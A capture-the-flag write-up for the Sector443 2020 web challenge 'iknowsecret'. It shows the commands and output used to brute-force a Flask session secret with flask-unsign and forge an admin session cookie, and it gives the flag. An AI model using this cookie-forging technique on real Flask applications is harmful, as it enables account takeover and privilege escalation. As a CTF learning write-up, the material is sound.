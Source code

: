 # Sector443 CTF 2020: Web - iknowsecret (443 points)

![img](https://github.com/FreezeLuiz/CTF-Writeups/blob/master/Web/images/sector443/iknowsecret/iknowsecret-chall_description.PNG "Challenge Description")

The information from the challenge description is a lot! But we get 3 important things:

1. we have user accounts to login
2. we have the URL 
3. we need to be `admin`

>Sounds easy! Lets see...


## Recon and Analysis

I don't like dirbuster the website, because usually in CTF challenges thats not the intended route.

My first thought after logging in with `Alice`, is that _it has to be an `authentication token` challenge._

I looked at the cookies and there was a session cookie called `session` that had the value:

```
session = eyJ1c2VybmFtZSI6IkFsaWNlIn0.X4LFSQ.UIhkGLEypsn2egiwIXKNMoyJ0Pc
```

At first glance, it may look like a [JWT](https://jwt.io/) token. Looking at it closely, it doesn't have the same structure as a JWT.
```
JWT's Structure
---------------

Header . Payload . Signature


This Token's Structure
----------------------

Payload . ???? . ????

```

When we send login requests multiple times, we get a different session cookie every time. 

```
1st: eyJ1c2VybmFtZSI6IkFsaWNlIn0.X4LFSQ.UIhkGLEypsn2egiwIXKNMoyJ0Pc
2nd: eyJ1c2VybmFtZSI6IkFsaWNlIn0.X4LXxA.Jc7Djou7JXl_H4WTJpDaAPwk-E4
3rd: eyJ1c2VybmFtZSI6IkFsaWNlIn0.X4LX6A.L9EuQltdNTUfk-0n_SZHh8yWn3M
```
The two things in common in these cookies are: The first half which is the payload or the data of the user `{"username": "Alice"}` base64 encoded, and the second half which always starts with `X4L***`.


The next key element to solve this challenge is the server's response headers. 

![img](https://github.com/FreezeLuiz/CTF-Writeups/blob/master/Web/images/sector443/iknowsecret/iknowsecret-python_server_flask.PNG "Flask Server")

That `server` header indicates that its running [Flask](https://flask.palletsprojects.com/), a python web server. 


## Solution

After googling around a bit for flask authentication token, I found something called [flask_unsign](https://pypi.org/project/flask-unsign/) that can take a token and bruteforce its secret, then using that secret we can forge other flask authentication tokens. 

```
kali@kali:~/Documents/sector443/iknowsecret$ python3 /home/kali/.local/lib/python3.8/site-packages/flask_unsign/__main__.py -u -c eyJ1c2VybmFtZSI6IkFsaWNlIn0.X4LX_Q.LU2iFhRBcP2nRHMCpdDQ1FnJY4o
[*] Session decodes to: {'username': 'Alice'}
[*] No wordlist selected, falling back to default wordlist..
[*] Starting brute-forcer with 8 threads..
[*] Attempted (2560): -----BEGIN PRIVATE KEY-----eke
[+] Found secret key after 18048 attemptsxxxxxxxxxxxx
'xxxxxxxx'
```

>For some reason I wasn't able to get the program in my path, so I had to get a work around and use the main py script from the module itself...

We got the secret `xxxxxxxx`...

```
kali@kali:~/Documents/sector443/iknowsecret$ python3 /home/kali/.local/lib/python3.8/site-packages/flask_unsign/__main__.py --sign -c "{'username': 'admin'}" --secret 'xxxxxxxx' --legacy

eyJ1c2VybmFtZSI6ImFkbWluIn0.X4LfAw.G-znSjIPN3MlE92fEgvN2vVpMMA
```
`eyJ1c2VybmFtZSI6ImFkbWluIn0.X4LfAw.G-znSjIPN3MlE92fEgvN2vVpMMA` Is the admin token with a correct signature that will authenticate with the server.

After replacing the `session` cookie value with that new one, we will get the flag:

![img](https://github.com/FreezeLuiz/CTF-Writeups/blob/master/Web/images/sector443/iknowsecret/iknowsecret-flag.PNG "flag.. yay!")

Flag = `S443{D7WZDqWffsFwU99Z}`